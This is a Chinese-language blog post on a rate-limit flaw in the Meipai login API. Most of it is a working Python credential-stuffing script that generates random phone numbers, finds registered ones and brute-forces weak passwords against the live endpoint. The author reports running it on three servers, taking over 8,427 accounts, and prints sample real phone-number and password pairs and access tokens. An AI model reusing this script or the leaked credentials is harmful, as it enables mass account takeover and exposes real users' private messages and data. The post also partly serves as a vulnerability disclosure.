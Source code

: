 ```yaml
---
layout: post
title: 美拍接口未限频导致的帐号随机密码碰撞
---
```


#### 一个接口

美拍进行手机号登录时会对手机号先进行注册检测，接口会返回登录情况：

![/images/dsjaiodjisaj18792n1x807he712x0je72111x9](/images/dsjaiodjisaj18792n1x807he712x0je72111x9.png)

![/images/oiu412incin8v9xm1uds89adas](/images/oiu412incin8v9xm1uds89adas.png)

如果手机帐号存在但密码错误则提示：

![/images/asaj18792n1x807he712x0je72111x9](/images/asaj18792n1x807he712x0je72111x9.png)

这里我们进行频繁的手机号随机登录查询，是没有限制频率的，所以我们可以通过不断生成手机号然后验证帐号是否注册，随后进行密码破解的操作。（大量帐号的密码破解情况下，弱口令会有很大的空间。）

#### 小脚本

1. 随机生成手机号码
2. 进行密码破解
3. 进行结果存储

        #!/usr/bin/env python
        # coding=utf8
        # author=evi1m0#ff0000.cc
        # create=20150216        import json
        import random
        import requests
        import threadpool as tp        def _burp(phone):
            for pwd in ['123456', '123456789', '000000', phone]:
                api_url = 'http://newapi.meipai.com/oauth/access_token.json'
                data = {'phone': phone,
                        'client_id': '1089857302',
                        'client_secret': '38e8c5aet76d5c012e32',
                        'grant_type': 'phone',
                        'password': pwd,}
                try:
                    print '[*] Burp Phone: %s' % phone
                    req = requests.post(api_url, data=data, timeout=5)
                except:
                    continue
                try:
                    success = json.loads(req.content)['access_token']
                    burp_success = open('./meipai_account.txt', 'a+')
                    burp_success.write('%s:::%s\n'%(phone, pwd))
                    burp_success.close()
                    print success
                    return success
                except:
                    success = 0
                    print '[-] Burp False'
                    continue        def _status(args):
            flag = 0
            while True:
                flag += 1
                phone_number = random.choice(['188','185','158','153','186','136','139','135'])\
                               +"".join(random.sample("0123456789",8 ))
                data = {'phone': phone_number,
                        'client_id': '1089857302',
                        'client_secret': '38e8c5aet76d5c012e32',
                        'grant_type': 'phone',
                        'password': '1',}
                api_url = 'http://newapi.meipai.com/oauth/access_token.json'
                try:
                    print '[%s] Test Phone: %s' % (flag, phone_number)
                    req = requests.post(api_url, data=data, timeout=3)
                    req_status = json.loads(req.content)['error_code']
                except:
                    req_status = 0
                if req_status == 21402 or req_status == 23801:
                    success_f = open('./success_reg_phone.txt', 'a+')
                    success_f.write('%s\n'%phone_number)
                    success_f.close()
                    _burp(phone_number)
                    print '\n[OK] Phone: %s\n' % phone_number        if __name__ == '__main__':
            args = []
            for i in range(30):
                args.append(args)
            pool = tp.ThreadPool(30)
            reqs = tp.makeRequests(_status, args)
            [pool.putRequest(req) for req in reqs]
            pool.wait()
            
![IMG_u901jfd9x99naak.jpg](/images/IMG_u901jfd9x99naak.jpg)#### 继续脚本

![40a661e4551847f5762e077e48c97d76](/images/40a661e4551847f5762e077e48c97d76.png)

我们进行了3台服务器的脚本部署，然后一天后进行数据统计：

1. success_reg_phone.txt
2. mp_account_data.txt

其中```success_reg_phone.txt```为注册美拍的帐号，```mp_account_data.txt```为成功爆破的美拍帐号。

去重整理之后的数据：

    wc meipai_account.txt
    8427    8427  198653 meipai_account.txt
    
    wc success_reg_phone.txt
    92531   92532 1110383 success_reg_phone.txt

其中成功登录```8427```，注册美拍的手机号```92531```。

    head meipai_account.txt
    
    13501235896:::13501235896
    13501239874:::13501239874
    13501256394:::123456789
    13501264953:::123456
    13501279546:::123456
    13501468359:::123456
    13501476253:::123456
    13501526734:::13501526734
    13501529843:::13501529843
    13501549263:::123456

随后我们对```92531```个手机号码去掉已经成功登录的```8427```个手机号后，进行二次的密码爆破。

> 美拍帐号登录错误5次会进行3个小时的密码锁定，所以三个小时能进行一次新的top密码破解；#### 数据统计

部署脚本的第二天我们停止了测试，因为这次仅仅是为了配合接口做次弱密码统计：

    cat meipai_account.txt  | awk -F::: '{print $2}' | sort | uniq -c | head

      65 000000
      98 111111
      19 123123123
    5293 123456
    3059 123456789
     296 5201314    

#### 简单利用

帐号成功登录后会返回一个类似于新浪微博授权的access_token，所以编写脚本进行access_token的收取工作即可；

    e.g:

    head meipai_access_token.txt
    
    00000027d3490ad1dd12c619fc82217a
    000c2518d5e477afc15ef26b23f94c3d
    001cedff4d578f454104a48523bb6b0c
    0023688a2428bd56f8a530c7e38fe6c8
    002812f57c139a3bcfa99a2b6f973286
    00287174138355393b755705c516a456
    0034285349fc1f3c8cc0fdb42dace741
    003a77922fb49d48097ee91a4cb20be2
    003a7e6e21088d2f3d83a6864bf922ee
    00685824290db6eac554577e729fb8ec
    
拥有access_token后可对帐号进行任意操作，比如：关注、查看私信、个人资料信息获取等。
